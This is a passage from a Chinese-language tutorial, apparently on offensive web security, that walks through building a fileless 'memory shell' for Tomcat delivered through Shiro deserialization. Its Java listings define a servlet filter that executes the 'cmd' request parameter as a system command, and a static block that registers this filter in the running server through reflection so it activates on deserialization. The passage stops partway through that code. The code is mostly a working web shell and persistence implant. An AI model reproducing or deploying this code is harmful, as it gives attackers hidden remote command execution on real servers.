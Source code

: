 然后开始编写filter的主体部分，只需要写一个实现了filter接口的类就行，并加上一些必须要override的一些方法，由于后面在反序列化当中要用到TemplatesImpl用这个类来承载我们的恶意filter字节码，所以还要继承AbstractTranslet。由此我们得到如下的一个恶意filter

```plain
public class BehinderFilter extends AbstractTranslet implements Filter{

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
        filterChain.doFilter(servletRequest, servletResponse);
        System.out.println("doFilter");
    }

    @Override
    public void destroy() {
    }
}
```

但这只实现了恶意filter，并没有把动态注册filter的逻辑加进去，所以我们还应该考虑把之前写的代码塞到这里去，塞到哪里呢？在反序列化的时候恶意代码执行的位置一般都放在静态代码段以及构造函数当中，所以在filter内存马当中我们将动态注册filter的部分代码放到静态代码段中，让其在反序列化的时候就开始执行，最终我们得到shiro的filter型内存马。  
内存马如下：

```plain
public class BehinderFilter extends AbstractTranslet implements Filter{
    static {
        try {
            //StandardContext
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
            //FilterDef
            Filter filter = new BehinderFilter();
            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(filter);
            filterDef.setFilterName("EvilFilter");
            filterDef.setFilterClass(filter.getClass().getName());
            context.addFilterDef(filterDef);
            //FilterConfig
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
            Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
            field1.setAccessible(true);
            Map filterConfigs = (Map)field1.get(context);
```